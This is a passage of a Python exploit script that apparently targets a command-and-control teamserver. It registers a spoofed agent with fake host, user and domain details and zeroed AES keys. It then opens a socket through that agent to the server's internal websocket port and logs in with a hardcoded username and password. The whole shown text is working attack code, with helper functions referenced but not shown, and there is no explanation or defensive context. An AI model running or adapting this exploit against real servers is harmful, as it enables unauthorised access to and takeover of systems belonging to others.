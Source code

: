    return frame


parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()

magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
    "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))

register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)

socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"
host = "127.0.0.1"
port = 40056
websocket_request = create_websocket_request(host, port)
write_socket(socket_id, websocket_request)
response = read_socket(socket_id)
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)
